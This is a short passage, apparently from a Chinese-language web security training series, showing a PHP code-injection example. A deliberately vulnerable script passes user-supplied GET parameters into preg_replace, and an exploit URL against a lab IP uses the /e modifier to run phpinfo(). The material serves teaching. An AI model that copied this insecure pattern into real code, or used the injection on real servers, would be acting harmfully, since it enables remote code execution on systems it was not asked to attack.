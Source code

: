 [![](assets/1704850598-1c24b6da81e7d468e6b0a1ebaa1cf637.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zO5OvNJDESkkkXbq.png)

### 2.1.7 Code injection Example 3

preg\_replace(pattern,replacement,subject)：搜索subject中匹配pattern的部分，以replacement进行替换；当pattern是/e将会以PHP执行replacement中的代码。

```plain
<?php
   echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```

[http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer](http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer)  